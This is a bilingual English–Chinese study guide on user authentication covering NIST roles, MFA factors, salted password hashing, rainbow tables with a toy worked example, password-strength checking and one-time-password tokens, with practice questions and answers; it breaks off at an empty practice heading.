Goal. Classify any login by the factors it uses, say whether it is multifactor, name the NIST roles in an enrollment and a login, and explain why MFA is stronger and where it still fails.目标。 按所用的因素对任意登录进行分类，说明它是否为多因素认证，说出注册和登录中的 NIST 角色，并解释多因素认证为何更强、又在哪些地方仍会失效。
Step 1: what user authentication is第 1 步：什么是用户认证
In words: user authentication = proving that the person at the keyboard really controls the identity they claim.用文字表述：用户认证 = 证明坐在键盘前的人确实控制着他所声称的身份。
User authentication（用户认证）checks the validity of the authenticators（认证器）that a subject uses to claim a digital identity（数字身份）. The authenticated ID then drives access control.用户认证检查主体用来声称某个数字身份的认证器是否有效。通过认证的身份随后决定访问控制。
Step 2: the NIST model and its roles第 2 步：NIST 模型及其角色
In words: first the user is registered and receives a credential (enrollment); later the user proves possession of it (authentication); the result is passed on to the service.用文字表述：先为用户注册并发放凭证（注册）；之后用户证明自己持有该凭证（认证）；结果再传递给服务。

In enrollment, an applicant shows evidence of identity (identity proofing) and receives a credential（凭证）that binds the identity to an authenticator: a key, a password or a token. In authentication, the claimant proves control of the authenticator to a verifier. The verifier asserts the identity to the relying party, which decides on access.在注册中，申请人出示身份证明（身份核验），并获得一个凭证，把身份与认证器绑定在一起。认证器可以是密钥、口令或令牌。在认证中，声称者向验证方证明自己控制着认证器。验证方再向依赖方确认身份，由依赖方决定是否授予访问权限。
| Role作用 | Who it is角色 | What it does作用 |
|---|---|---|
| Applicant, then subscriber申请人，之后成为订户 | the person who registers进行注册的人 | presents evidence; receives the credential出示证据，领取凭证 |
| Registration authority (RA)注册机构（RA） | the office that checks the evidence负责核查证据的机构 | vouches for the applicant为申请人作担保 |
| Credential service provider (CSP)凭证服务提供方（CSP） | the issuer签发方 | issues the authenticator and credential签发认证器和凭证 |
| Claimant声称者 | the same person at login登录时的同一个人 | proves possession of the authenticator证明自己持有认证器 |
| Verifier验证方 | the authentication server认证服务器 | checks the proof; asserts the identity检查证明，确认身份 |
| Relying party (RP)依赖方（RP） | the service, for example a library portal服务方，例如图书馆门户网站 | grants access on the assertion依据确认结果授予访问权限 |
Step 3: the four factors and multifactor authentication第 3 步：四类因素与多因素认证
In words: a factor = a class of evidence (know, have, are, do); MFA = evidence from at least two different classes.用文字表述：因素 = 一类证据（知道、拥有、是、做）；多因素认证 = 来自至少两个不同类别的证据。
| Factor因子 | Examples示例 | Typical weaknesses典型弱点 |
|---|---|---|
| Knowledge (something you know)知识（你所知道的） | password, PIN, security questions口令、PIN、安全问题 | guessed, shared, forgotten, stolen被猜中、被共享、被遗忘、被窃取 |
| Possession (something you have; a token)持有（你所拥有的；令牌） | smart card, OTP device, phone智能卡、一次性口令设备、手机 | lost, stolen, cloned, shared丢失、被窃、被复制、被共享 |
| Inherence, static (something you are)固有属性，静态（你所是的东西） | fingerprint, iris, retina, face指纹、虹膜、视网膜、面部 | false matches and non-matches, cannot be changed存在误匹配与误不匹配，且无法更改 |
| Inherence, dynamic (something you do)固有属性，动态（你所做的事） | voice, handwriting, typing rhythm声音、笔迹、打字节奏 | as above同上 |
Multifactor authentication (MFA)（多因素认证）is stronger because the failures of different classes are largely independent. A stolen token does not reveal the PIN. The assumption breaks if the PIN is written on the token. MFA is also open to phishing, social engineering and malware that copies codes.多因素认证（MFA）之所以更强，是因为不同类别因素的失效基本相互独立。被盗的令牌不会泄露 PIN。但如果 PIN 写在令牌上，这一假设就不成立了。多因素认证同样可能受到钓鱼、社会工程攻击，以及复制验证码的恶意软件的威胁。
Practice练习
Q1. (Classify) Name the factors used and say whether the login is multifactor: (a) ATM card and PIN; (b) password and mother's maiden name; (c) fingerprint scan and a code shown by a key fob.Q1.（分类）指出所使用的认证因子，并说明该登录是否属于多因素认证：（a）ATM 卡加 PIN；（b）口令加母亲的娘家姓；（c）指纹扫描加钥匙扣令牌显示的验证码。
Answer
(a) Possession plus knowledge: multifactor. (b) Knowledge plus knowledge: two items of one class, so single-factor. (c) Inherence plus possession: multifactor.（a）持有加知识：多因素认证。（b）知识加知识：属于同一类的两项，因此是单因素认证。（c）固有属性加持有：多因素认证。
Q2. (Explain) Why is MFA stronger than one factor, and why can it still fail?Q2.（解释）为什么多因素认证比单一因子更强，而它为什么仍然可能失败？
Answer
The failure modes of different classes are largely independent, so an attacker must defeat both: a lost token does not reveal the PIN, a leaked password does not provide the phone. The independence assumption breaks if the PIN is written on the token. MFA also fails against phishing or social engineering that makes the user reveal or approve a code, and against malware that intercepts it.不同类别的失效方式基本相互独立，因此攻击者必须同时攻破两者：丢失的令牌不会泄露 PIN，泄露的口令也无法提供手机。若 PIN 被写在令牌上，这一独立性假设便会被打破。MFA 同样会在钓鱼或社会工程学诱使用户泄露或批准验证码时失效，也会在恶意软件拦截验证码时失效。
Q3. (Roles) A student registers at the university IT office, receives a smart card and later logs on to the library portal with it. Name the NIST roles.Q3.（角色）一名学生在大学信息技术办公室注册，领取了一张智能卡，之后用它登录图书馆门户。请指出 NIST 中的各个角色。
Answer
The student is the applicant and, once registered, the subscriber; at login the student is the claimant. The IT office acts as RA, and with the card issuer as CSP it issues the authenticator and credential. The authentication server that checks the card by a protocol is the verifier. The library portal, which grants access on the verifier's assertion, is the relying party.该学生在注册时是申请人，注册后成为订户；登录时则是声称者。信息技术办公室担任 RA，并与卡的发行方共同担任 CSP，签发认证器和凭证。通过协议检查该卡的认证服务器是验证方。图书馆门户依据验证方的断言授予访问权限，因此是依赖方。
Password-based authentication: attacks, hashing and salt ★★★基于口令的认证：攻击、散列与盐值
Goal. Explain how passwords are stored (hash plus salt) and why a public salt still helps. Compute how salt changes the attacker's work, and name the attacks on a password system with their countermeasures.目标。 解释口令如何存储（散列加盐），以及为什么公开的盐值仍然有用。计算盐值如何改变攻击者的工作量，并说出针对口令系统的攻击及其对策。
Step 1: the attacks第 1 步：攻击方式
In words: the attacker either steals the file and guesses offline, guesses online, or watches the login on the wire.用文字表述：攻击者要么窃取口令文件并离线猜测，要么在线猜测，要么在网络上监听登录过程。
| Attack攻击 | How it works工作方式 | Countermeasure对策 |
|---|---|---|
| Offline dictionary离线字典攻击 | steal the file and compare its hashes with hashes of likely passwords窃取文件，并将其中的散列值与可能口令的散列值进行比较 | protect the file; salted slow hashes; reissue passwords quickly保护文件；使用加盐的慢速散列；尽快重新签发口令 |
| Account guessing账户猜测 | many guesses against one ID, or one common password against many IDs针对同一 ID 进行大量猜测，或用一个常见口令针对多个 ID 进行猜测 | lockout after at most five failures; ban common passwords; watch request patterns最多五次失败后锁定；禁止常见口令；监控请求模式 |
| Other其他 | personal-knowledge guessing, unattended sessions, written or default passwords, social engineering, password reuse基于个人信息的猜测、无人值守的会话、写下来的或默认的口令、社会工程学、口令重用 | password policy; automatic logout; training; a second factor口令策略；自动注销；培训；第二因子 |
| Electronic monitoring电子监听 | eavesdrop on a remote login窃听远程登录 | challenge–response (Section 17.6); encrypting the password does not help, since the ciphertext is then the password挑战-应答（见第 17.6 节）；加密口令无济于事，因为密文本身就成了口令 |
Offline guessing is the most dangerous. It runs at the speed of the attacker's hardware, with no lockout.离线猜测最危险。它以攻击者硬件的速度运行，而且不会被锁定。
Step 2: the salted-hash scheme第 2 步：加盐散列方案
In words: salt = a random value, stored in the clear, that is mixed into every password before hashing so that each account has its own hash function.用文字表述：盐值 = 一个随机值，以明文存储，在散列之前与每个口令混合，使每个账户都有自己的散列函数。

Loading a password. The user chooses \(P\). The system draws a random salt（盐值）\(s\) and computes a deliberately slow hash \(H(s,P)\). It stores \((ID, s, H(s,P))\) with \(s\) in plaintext. Login. The system reads \(s\) and the hash by ID, computes \(H(s,P')\) from the typed password \(P'\), and accepts if the two are equal.设置口令。用户选择 \(P\)。系统随机抽取一个盐值 \(s\)，并计算一个刻意较慢的散列 \(H(s,P)\)。系统以明文形式把 \((ID, s, H(s,P))\) 与 \(s\) 一起存储。登录。系统按 ID 读取 \(s\) 和散列值，由输入的口令 \(P'\) 计算 \(H(s,P')\)，若两者相等则接受。
The salt serves three purposes.盐值有三个作用。
- Two users with the same password get different stored hashes, so duplicate passwords are not visible in the file.两个用户即使口令相同，存储的散列值也不同，因此文件中看不出重复的口令。
- Offline dictionary attacks become much harder. A guess must be hashed again for every account, because each account has a different salt. A precomputed table must hold every possible salt, so it becomes \(2^b\) times larger for a \(b\)-bit salt.离线字典攻击变得困难得多。每个账户的盐值都不同，因此每个猜测值都必须对每个账户重新计算散列。预计算表必须覆盖所有可能的盐值，因此对于 \(b\) 位的盐值，表的规模会扩大 \(2^b\) 倍。
- It becomes nearly impossible to find out whether a person uses the same password on two or more systems, because each system stores it under a different salt.由于每个系统都用不同的盐值存储口令，要查明某人是否在两个或更多系统中使用了相同的口令，几乎不可能。
The salt does not make one target harder. The attacker who wants one chosen account hashes each guess once under that account's salt. A long salt only removes shared work. Slow hashing and unguessable passwords raise the cost per account.盐值并不会让某一个目标更难攻破。想攻击某个指定账户的攻击者，只需用该账户的盐值对每个猜测值计算一次散列。盐值越长，只是去掉了共享的工作量。要提高每个账户的破解成本，靠的是慢速散列和难以猜测的口令。
Step 3: UNIX implementations第 3 步：UNIX 的实现
| Scheme方案 | Core核心 | Password length口令长度 | Salt盐值 | Cost成本 | Output输出 |
|---|---|---|---|---|---|
| crypt(3) | modified DES: 56-bit key from 8 characters encrypts a zero block改进的 DES：由 8 个字符得到的 56 位密钥加密零块 | 8 characters8 个字符 | 12 bits12 位 | 25 encryptions25 次加密 | 64 bits |
| MD5-crypt (Linux, FreeBSD)MD5-crypt（用于 Linux、FreeBSD） | MD5 | unlimited无限制 | up to 48 bits最多 48 位 | 1000 iterations1000 次迭代 | 128 bits |
| Bcrypt (OpenBSD)Bcrypt（用于 OpenBSD） | Blowfish | up to 55 characters最多 55 个字符 | random, 128 bits随机，128 位 | configurable cost可配置的代价 | 192 bits192 位 |
Hashes are kept in a shadow password file（影子口令文件）readable only by privileged users. This is not enough: software holes, readable backups and password reuse leak hashes. The passwords themselves must also be hard to guess.散列值保存在只有特权用户才能读取的影子口令文件中。但这还不够：软件漏洞、可读的备份以及口令重复使用，都会泄露散列值。口令本身也必须难以猜测。
Practice练习
Q1. (Explain) The salt is stored in plaintext next to the hash. (a) Why does it still increase security? (b) Would a 48-bit salt stop password cracking completely?Q1.（解释）盐值以明文形式存放在散列值旁边。(a) 它为什么仍然能提高安全性？(b) 48 位盐值能否彻底阻止口令破解？
Answer
(a) The attacker cannot hash a guess once and compare it with every account: each guess is rehashed under each salt (cost \(\times n\) for \(n\) accounts), and a precomputed table must hold every salt, i.e. 4096 times more entries for a 12-bit salt. Equal passwords also look different. (b) No. To attack one chosen account the attacker needs only \(|D|\) hashes under that account's salt, whatever its length. A longer salt only makes precomputation and multi-account attacks costlier; slow hashing and strong passwords raise the cost per account.(a) 攻击者不能只对一次猜测做一次哈希然后与所有账户比较：每次猜测都要在每个盐值下重新哈希（代价为 \(\times n\)，针对 \(n\) 个账户），而预计算表必须覆盖每个盐值，即 12 位盐值使表项增加到 4096 倍。相同的口令看起来也不同。(b) 不能。要攻击某个指定账户，攻击者只需在该账户的盐值下计算 \(|D|\) 次哈希，与盐值长度无关。更长的盐值只会让预计算和多账户攻击的代价更高；慢速哈希和强口令则提高了每个账户的代价。
Q2. (Calculation) A file holds \(n=1000\) users with distinct salts. The attacker's dictionary has \(|D|=10^6\) words and the attacker hashes \(10^6\) guesses per second. (a) How long does it take to test the dictionary against all users without salt and with salt? (b) How many entries must a precomputed table have for a 12-bit and a 48-bit salt, and how large is the first with 8-byte entries?Q2.（计算）文件中有 \(n=1000\) 个用户，各自使用不同的盐值。攻击者的字典有 \(|D|=10^6\) 个词，攻击者每秒计算 \(10^6\) 次猜测。(a) 用字典测试所有用户，无盐值和有盐值时各需要多长时间？(b) 12 位盐值和 48 位盐值各需要多少表项的预计算表？第一种情况下若每项 8 字节，表有多大？
Answer
(a) Unsalted: \(|D|=10^6\) hashes, 1 s. Salted: \(n|D|=10^9\) hashes, 1000 s \(\approx16.7\) min. (b) \(2^{12}\times10^6=4.1\times10^9\) entries, i.e. \(32.8\) GB at 8 bytes. \(2^{48}\times10^6=2.8\times10^{20}\) entries, about \(2.3\times10^{21}\) bytes: infeasible.(a) 无盐值：\(|D|=10^6\) 次哈希，1 s。有盐值：\(n|D|=10^9\) 次哈希，1000 s \(\approx16.7\) min。(b) \(2^{12}\times10^6=4.1\times10^9\) 个表项，即每项 8 字节时 \(32.8\) GB。\(2^{48}\times10^6=2.8\times10^{20}\) 个表项，约 \(2.3\times10^{21}\) 字节：不可行。
Q3. (True/false) (a) "Because crypt(3) applies DES 25 times, the stored value can be decrypted by running DES backwards." (b) "A table of hashes computed before the file was stolen cracks any salted account."Q3.（判断）(a)“因为 crypt(3) 对 DES 应用了 25 次，存储的值可以通过倒着运行 DES 解密。” (b)“在口令文件被盗之前计算好的哈希表可以破解任何加盐账户。”
Answer
(a) False. The password is the DES key and the plaintext is a fixed zero block, so recovering the password is a key-recovery problem, not a decryption; the 25 repetitions only multiply the cost of each guess. (b) False. Such a table works only for the salts it was built for. A random salt of sufficient length makes the right table \(2^b\) times larger, so the attacker falls back to guessing against each account.(a) 错误。口令就是 DES 密钥，明文是固定的零块，因此恢复口令是密钥恢复问题，而不是解密；25 次重复只会增加每次猜测的代价。(b) 错误。这种表只对其所针对的盐值有效。足够长的随机盐值会使正确的表变大 \(2^b\) 倍，因此攻击者只能对每个账户逐一猜测。
Cracking passwords and choosing better ones ★★★破解口令与选择更好的口令
Goal. Compute the size of a password space and the time to search it, explain a dictionary attack, and explain rainbow tables and the time-memory trade-off with numbers.目标。 计算口令空间的大小及搜索它所需的时间，解释字典攻击，并用具体数字解释彩虹表和时间-存储折中。
Step 1: dictionary and brute-force attacks第 1 步：字典攻击与暴力破解
In words: a dictionary attack tries the passwords people really choose; brute force tries every string.用文字表述：字典攻击尝试人们真正会选择的口令；暴力破解尝试所有字符串。
A dictionary attack（字典攻击）hashes every word of a list under every salt and compares the results with the file. It then tries variations: reversed words, digits appended, changed capitals, "o" replaced by "0". Users choose predictable passwords, so this works. A classic study of 14,000 UNIX hashes found nearly 25% of the passwords in under an hour. One older graphics card (an AMD Radeon HD 7970) already makes about \(8.2\times10^9\) guesses per second against a fast hash; the rate depends on the hash algorithm.字典攻击会用每个盐值对词表中的每个词计算散列，并将结果与文件比对。随后还会尝试各种变体：倒序单词、末尾加数字、改变大小写、把 "o" 换成 "0" 等。用户往往会选择可预测的口令，因此这种攻击很有效。一项经典研究分析了 14,000 个 UNIX 散列值，在不到一小时内就找出了近 25% 的口令。一块较老的显卡（AMD Radeon HD 7970）针对快速散列，每秒就能做约 \(8.2\times10^9\) 次猜测；具体速率取决于散列算法。
In words: space = alphabet size to the power of the length; the average search tries half of it.用文字表述：口令空间 = 字母表大小的口令长度次方；平均搜索只需尝试其中的一半。
| Rule (\(k=8\)) | Space空间 | Bits比特 | Full search at \(8.2\times10^9\) per second以每秒 \(8.2\times10^9\) 次的速率完整搜索所需的时间 |
|---|---|---|---|
| lowercase, \(r=26\) | \(2.09\times10^{11}\) | 37.6 | 25.5 s |
| letters and digits, \(r=62\) | \(2.18\times10^{14}\) | 47.6 | 7.4 h |
| printable ASCII, \(r=95\) | \(6.63\times10^{15}\) | 52.6 | 9.4 days9.4 天 |
Ten printable characters (\(95^{10}\approx5.99\times10^{19}\)) need about 231 years. Real users are far from uniform, so this is an upper bound on their strength.十个可打印字符（\(95^{10}\approx5.99\times10^{19}\)）需要约 231 年。真实用户的选择远非均匀分布，因此这只是其强度的上界。
Step 2: rainbow tables and the time-memory trade-off第 2 步：彩虹表与时间-存储折中
In words: a rainbow table stores only the two ends of long chains of password-hash-password steps, so it is small, and it rebuilds the middle of a chain when it needs it.用文字表述：彩虹表只存储由“口令-散列-口令”步骤构成的长链的两端，因此体积很小；需要时再重新计算链的中间部分。
An attacker can trade memory for time（以存储换时间）by precomputation. Let \(N\) be the number of possible passwords. The simplest table stores every (hash, password) pair: lookup is instant, but the memory is \(N\) entries.攻击者可以通过预计算，以存储换时间。设 \(N\) 为可能口令的个数。最简单的表会存储每一对（散列，口令）：查找是即时的，但需要 \(N\) 个条目的存储空间。
| Strategy策略 | Precomputation预计算 | Memory存储 | Work per stolen hash每个被盗哈希的工作量 |
|---|---|---|---|
| Brute force穷举攻击 | none无 | none无 | about \(N/2\) hashes |
| Full lookup table完整查找表 | \(N\) hashes | \(N\) (hash, password) entries | one lookup一次查表 |
| Hash chains (Hellman, rainbow)哈希链（Hellman、彩虹表） | about \(N\) hashes | \(M=N/t\) (start, end) pairs | about \(t^2\) (Hellman) or \(t^2/2\) (rainbow) hashes约 \(t^2\)（Hellman）或 \(t^2/2\)（彩虹表）次哈希 |
A reduction function \(R_i\) maps a hash back to some password in the space. It is not the inverse of \(H\). Start from a password \(p_0\) and alternate \(H\) and \(R_i\). Store only the start and the end of each chain of length \(t\).归约函数 \(R_i\) 把一个散列值映射回口令空间中的某个口令。它并不是 \(H\) 的逆函数。从口令 \(p_0\) 出发，交替计算 \(H\) 和 \(R_i\)。对于长度为 \(t\) 的每条链，只存储其起点和终点。
p0 --H--> h0 --R1--> p1 --H--> h1 --R2--> p2 --H--> ... --Rt--> pt store (p0, pt)
Using a different \(R_i\) in every column makes it a rainbow table（彩虹表）. To look up a stolen hash \(h^*\) by hand:在每一列使用不同的 \(R_i\)，就得到了彩虹表。要手工查找被盗的散列值 \(h^*\)，步骤如下：
- Assume \(h^*\) is the last hash of a chain. Compute \(R_t(h^*)\) and compare it with the stored ends.假设 \(h^*\) 是某条链的最后一个散列值。计算 \(R_t(h^*)\)，并与存储的链端进行比较。
- If nothing matches, assume \(h^*\) is one column earlier: apply \(R_{t-1}\), then \(H\), then \(R_t\), and compare again. Go back column by column.如果没有匹配，则假设 \(h^*\) 位于前一列：依次应用 \(R_{t-1}\)、\(H\)、\(R_t\)，再次比较。逐列向前回溯。
- On a match, rebuild that chain from its start and find the password whose hash is \(h^*\). If \(h^*\) is not on the chain, the match was a false alarm.一旦匹配，就从该链的起点重新推算，找到散列值为 \(h^*\) 的口令。如果 \(h^*\) 不在该链上，则这次匹配是误报。
At most \(t(t-1)/2\) hash evaluations are needed.最多需要 \(t(t-1)/2\) 次哈希计算。
Small numbers. A site hashes passwords of 6 digits, so \(N=10^6\). Take chains of length \(t=100\). Brute force needs on average \(5\times10^5\) hashes. A full table stores \(10^6\) entries. The chains store \(M=N/t=10^4\) pairs, 100 times fewer. A lookup recomputes at most \(t(t-1)/2=4950\) hashes. Check of the relation: \(TM^2\approx\tfrac{t^2}{2}\times\left(\tfrac{N}{t}\right)^2=\tfrac{N^2}{2}\).用小数字举例。某网站对 6 位数字口令做散列，因此 \(N=10^6\)。取长度为 \(t=100\) 的链。暴力破解平均需要 \(5\times10^5\) 次散列。完整表需要存储 \(10^6\) 个条目。链式存储只需 \(M=N/t=10^4\) 对，少了 100 倍。一次查找最多重新计算 \(t(t-1)/2=4950\) 次散列。关系式的验算：\(TM^2\approx\tfrac{t^2}{2}\times\left(\tfrac{N}{t}\right)^2=\tfrac{N^2}{2}\)。
Salt against rainbow tables. A table is built for one hash function. A different salt means a different function, so a 12-bit salt needs 4096 tables. In the small example this is \(4096\times10^4\approx4.1\times10^7\) pairs and 4096 times the precomputation. The table attack becomes infeasible. The attacker must guess account by account.盐值对抗彩虹表。一张表只针对一种散列函数构建。不同的盐值意味着不同的函数，因此 12 位的盐值需要 4096 张表。在上面的小例子中，这意味着 \(4096\times10^4\approx4.1\times10^7\) 对，预计算量扩大 4096 倍。表攻击因此变得不可行，攻击者只能逐个账户去猜。
Step 3: choosing better passwords第 3 步：选择更好的口令
In words: the aim is to remove guessable passwords while the user can still remember the new one.用文字表述：目标是在用户仍能记住新口令的前提下，去掉容易被猜中的口令。
| Technique技术 | How做法 | Problem问题 |
|---|---|---|
| User education用户教育 | guidelines, e.g. first letters of a phrase ("My sister Peg is 24 years old" gives MsPi24yo)指导原则，例如取一句话的首字母（“My sister Peg is 24 years old”得到 MsPi24yo） | most users ignore them or misjudge strength大多数用户忽视这些指导或误判强度 |
| Computer-generated计算机生成 | random or pronounceable passwords (FIPS 181)随机或可发音的口令（FIPS 181） | hard to remember, so written down难以记忆，因此被写下来 |
| Reactive checking事后检查 | the system runs a cracker and cancels guessed passwords系统运行破解程序，并取消被猜中的口令 | resource-hungry; weak passwords survive until found耗费资源；弱口令在被找到之前一直存在 |
| Proactive checking (complex password policy)事前检查（复杂口令策略） | reject weak choices when the password is set在设置口令时拒绝弱选择 | balance strength and acceptability在强度与可接受性之间取得平衡 |
Two rules are compared: basic16 (at least 16 characters) and comprehensive8 (8 characters with upper case, lower case, symbol and digit, no dictionary word). Basic16 resists many guesses better and is easier for users. NIST SP 800-63B requires at least 8 characters, encourages passphrases and requires rejecting known bad passwords. A Bloom filter（布隆过滤器）stores the bad-password list compactly. Each listed word sets \(k\) bits of an \(N\)-bit table through \(k\) hash functions. A candidate is rejected if all its \(k\) bits are set.比较两条规则：basic16（至少 16 个字符）和 comprehensive8（8 个字符，且包含大写字母、小写字母、符号和数字，不含字典词）。basic16 更能抵抗多次猜测，而且对用户更友好。NIST SP 800-63B 要求至少 8 个字符，鼓励使用口令短语，并要求拒绝已知的不良口令。布隆过滤器可以紧凑地存储不良口令列表：列表中的每个词，通过 \(k\) 个哈希函数，在一个 \(N\) 位的表中置上 \(k\) 个位。若候选口令对应的 \(k\) 个位全部为 1，则拒绝该口令。
Practice练习
Q1. (Calculation) Passwords are 4 letters from the 26-letter alphabet; the adversary makes one attempt per second. (a) Expected time if the adversary learns nothing until a whole attempt is complete? (b) Expected time if the system flags an error as soon as an incorrect character is entered?Q1.（计算）口令由字母表（26 个字母）中的 4 个字母组成；攻击者每秒尝试一次。(a) 若系统在一次尝试完全结束前不给出任何反馈，攻击者的期望时间是多少？(b) 若系统在输入错误字符时立即报错，期望时间是多少？
Answer
(a) \(26^4=456{,}976\) passwords, expected guesses \((N+1)/2=228{,}488.5\), i.e. 228,488.5 s \(\approx63.5\) h \(\approx2.6\) days. (b) Each position can be attacked separately: \((26+1)/2=13.5\) guesses per character on average, so \(4\times13.5=54\) s. Feedback per character turns an exponential search into a linear one.(a) \(26^4=456{,}976\) 个口令，期望猜测次数 \((N+1)/2=228{,}488.5\)，即 228,488.5 s \(\approx63.5\) h \(\approx2.6\) 天。(b) 每个位置可以单独攻击：平均每个字符 \((26+1)/2=13.5\) 次猜测，因此 \(4\times13.5=54\) s。逐字符的反馈把指数级搜索变成了线性搜索。
Q2. (Trace) Passwords are the integers 00 to 99, \(H(x)=(x^2+3x+7)\bmod1000\) and \(R_i(h)=(h+i)\bmod100\). Chains of length \(t=3\) were built from starts 12 and 40, and only the pairs \((12,50)\) and \((40,70)\) are stored. (a) Rebuild the first chain. (b) Look up \(h^*=875\). (c) Look up \(h^*=500\).Q2.（手工演算）口令为整数 00 到 99，\(H(x)=(x^2+3x+7)\bmod1000\) 和 \(R_i(h)=(h+i)\bmod100\)。构造了长度为 \(t=3\) 的链，起点分别为 12 和 40，只存储配对 \((12,50)\) 和 \((40,70)\)。(a) 重建第一条链。(b) 查找 \(h^*=875\)。(c) 查找 \(h^*=500\)。
Answer
(a) \(12\xrightarrow{H}187\xrightarrow{R_1}88\xrightarrow{H}15\xrightarrow{R_2}17\xrightarrow{H}347\xrightarrow{R_3}50\), so the stored end is 50. The second chain is \(40\to727\to28\to875\to77\to167\to70\).(a) \(12\xrightarrow{H}187\xrightarrow{R_1}88\xrightarrow{H}15\xrightarrow{R_2}17\xrightarrow{H}347\xrightarrow{R_3}50\)，因此存储的终点为 50。第二条链是 \(40\to727\to28\to875\to77\to167\to70\)。
(b) Assume \(875\) is the last hash: \(R_3(875)=78\), not an endpoint. Assume it is one column earlier: \(R_2(875)=77\), \(H(77)=167\), \(R_3(167)=70\), which is the endpoint of the chain starting at 40. Rebuild: \(40\to727\to28\to875\), so \(H(28)=875\) and the password is 28.(b) 假设 \(875\) 是最后一个哈希：\(R_3(875)=78\)，不是终点。假设它位于前一列：\(R_2(875)=77\)、\(H(77)=167\)、\(R_3(167)=70\)，这是起点为 40 的链的终点。重建：\(40\to727\to28\to875\)，故 \(H(28)=875\)，口令为 28。
(c) \(R_3(500)=3\); \(R_2(500)=2\), \(H(2)=17\), \(R_3(17)=20\); \(R_1(500)=1\), \(H(1)=11\), \(R_2(11)=13\), \(H(13)=215\), \(R_3(215)=18\). None of 3, 20, 18 is a stored endpoint, so the hash is not covered (the two chains cover only 6 of the 100 passwords). If an endpoint had matched but the rebuilt chain lacked \(h^*\), that would be a false alarm and the search would continue.(c) \(R_3(500)=3\)；\(R_2(500)=2\)、\(H(2)=17\)、\(R_3(17)=20\)；\(R_1(500)=1\)、\(H(1)=11\)、\(R_2(11)=13\)、\(H(13)=215\)、\(R_3(215)=18\)。3、20、18 都不是存储的终点，因此该哈希未被覆盖（两条链只覆盖 100 个口令中的 6 个）。若某个终点匹配但重建的链中缺少 \(h^*\)，那就是误报，搜索应当继续。
思路：从最后一列开始，逐列往前假设目标哈希的位置，走到链尾比对终点；命中后必须重建整条链再验证。
Q3. (Calculation) A proactive checker uses a Bloom filter for a dictionary of \(10^6\) words with \(k=6\) hash functions. (a) How many bits give \(P=0.01\)? (b) What is \(P\) if only \(8\times10^6\) bits are available?Q3.（计算）事前检查器使用布隆过滤器存储包含 \(10^6\) 个词的字典，并采用 \(k=6\) 个哈希函数。(a) 需要多少位才能达到 \(P=0.01\)？(b) 若只有 \(8\times10^6\) 位可用，结果是 \(P\)？
Answer
(a) \(N=-kD/\ln(1-P^{1/k})\). With \(P^{1/6}=0.01^{1/6}=0.4642\): \(N=-6\times10^6/\ln(0.5358)=6\times10^6/0.624\approx9.6\times10^6\) bits \(\approx1.2\) MB. (b) \(P=(1-e^{-6\times10^6/8\times10^6})^6=(1-e^{-0.75})^6=0.5276^6\approx0.022\), about 2.2% of good passwords rejected.（a）\(N=-kD/\ln(1-P^{1/k})\)。取 \(P^{1/6}=0.01^{1/6}=0.4642\) 时：\(N=-6\times10^6/\ln(0.5358)=6\times10^6/0.624\approx9.6\times10^6\) 位，\(\approx1.2\) MB。（b）\(P=(1-e^{-6\times10^6/8\times10^6})^6=(1-e^{-0.75})^6=0.5276^6\approx0.022\)，约 2.2% 的好口令会被拒绝。
Token-based authentication ★★基于令牌的认证
Goal. Describe the kinds of token, compute the counter of a time-based one-time password, and compare SMS codes with an authenticator app.目标。 描述各类令牌，计算基于时间的一次性口令的计数器，并比较短信验证码与认证器应用。
A token（令牌）is an object the user possesses: a card, a hardware one-time-password device or a mobile phone.令牌是用户所持有的物品：卡片、硬件一次性口令设备或手机。
| Card卡片 | Contents内容 | Use用途 |
|---|---|---|
| Memory card存储卡 | electronic memory or magnetic stripe; stores but cannot process data电子存储器或磁条；只能存储数据，不能处理数据 | physical access, gift cards; with a PIN, two factors物理门禁、礼品卡；加上 PIN 即为两个因素 |
| Smart card（智能卡） | microprocessor with ROM, EEPROM and RAM; optional crypto co-processor带有 ROM、EEPROM 和 RAM 的微处理器；可选的密码协处理器 | authentication, payment, electronic ID认证、支付、电子身份证 |
A smart card talks to its reader by contact pads or by contactless radio. It follows one of three authentication protocols.智能卡通过触点或非接触式无线电与读卡器通信，并遵循三种认证协议之一。
- Static: the user authenticates to the token, which authenticates the user to the computer.静态方式：用户向令牌认证，令牌再向计算机认证用户。
- Dynamic password generator: the token produces a new password periodically, kept synchronised with the computer.动态口令生成器：令牌周期性地生成新口令，并与计算机保持同步。
- Challenge-response: the computer sends a random challenge and the token answers, for example by encrypting it with its private key.挑战-应答方式：计算机发送随机挑战，令牌作出应答，例如用其私钥对挑战进行加密。
A one-time password (OTP) device holds a secret key and combines it with the current time or a counter. The user types the displayed code. The verifier computes the expected code with the same key and compares. TOTP uses HMAC (Chapter 12).一次性口令（OTP）设备保存一个秘密密钥，并将其与当前时间或计数器组合。用户输入屏幕上显示的验证码。验证方用同一密钥计算期望的验证码，再进行比对。TOTP 使用 HMAC（见第 12 章）。
In words: TOTP counter = number of whole 30-second steps since the start time; the code changes when the counter changes.用文字表述：TOTP 计数器 = 自起始时间以来经过的完整 30 秒步数；计数器变化时，验证码随之变化。
Clocks drift, so the verifier accepts a small window of neighbouring counters and records the drift. A shoulder surfer can read a displayed code. Some tokens therefore sign a challenge over USB, NFC or Bluetooth, and a multifactor device first demands a PIN or biometric. FIDO2 standardises the browser-to-authenticator exchange.时钟会漂移，因此验证方会接受相邻计数器的一个小范围，并记录漂移量。旁人可能看到屏幕上显示的验证码。因此，有些令牌会通过 USB、NFC 或蓝牙对挑战进行签名；多因素设备则会先要求输入 PIN 或生物特征。FIDO2 规范化了浏览器与认证器之间的交互。
| SMS or voice code短信或语音验证码 | Authenticator app (TOTP)验证器应用（TOTP） | |
|---|---|---|
| Needs需要 | mobile coverage; no app, so it works on basic phones移动网络覆盖；无需应用，因此可用于普通手机 | no network connection无网络连接 |
| Attacks攻击 | phone theft with the password; SIM swap (the number is moved to the attacker's SIM through weak customer-service checks); account recovery abuse; a fake tower or SS7 (harder)手机与口令一同被盗；SIM 卡交换（通过薄弱的客服验证将号码转移到攻击者的 SIM 卡上）；滥用账户恢复机制；伪造基站或 SS7（难度较高） | phone theft or malware; prompt bombing (flooding the user with approval requests); social engineering for the code; key extraction手机被盗或感染恶意软件；提示轰炸（向用户不断发送授权请求）；通过社会工程获取验证码；密钥提取 |
| Status状态 | NIST SP 800-63B: restrictedNIST SP 800-63B：受限 | preferred; unlock the phone first; keep backup codes更推荐；先解锁手机；保留备用码 |
Practice练习
